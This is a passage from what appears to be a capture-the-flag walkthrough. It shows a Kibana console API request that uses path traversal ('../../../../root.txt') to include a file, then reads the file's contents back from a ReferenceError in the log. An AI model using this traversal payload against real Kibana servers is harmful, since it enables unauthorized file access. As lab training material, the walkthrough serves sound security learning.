 ```
http://:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../root.txt
```

Once this is executed we can check the kibana log that is avalable on port 8000, and viewing the text we can find the following error message:

```
{"message":"ReferenceError: someELKfun is not defined\n
```

This is because our file was included and the code is trying to execute `someELFfun` as if it were a function, hence the ReferenceError.

## Task 30 -- [Day 25] Challenge-less
No answer needed.

